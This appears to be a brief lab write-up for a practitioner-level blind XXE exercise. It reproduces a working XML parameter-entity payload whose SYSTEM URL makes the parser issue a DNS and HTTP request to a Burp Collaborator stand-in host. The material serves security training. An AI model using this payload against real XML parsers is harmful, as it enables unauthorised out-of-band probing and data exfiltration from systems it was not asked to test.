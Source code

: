 Title: Blind XXE with out-of-band interaction via XML parameter entities
Level: Practitioner 
Desc:  This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.
To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. 


Below you can find XML Parameter Entity
```
<!DOCTYPE stockCheck [
 <!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN">
 %xxe; ]>
```
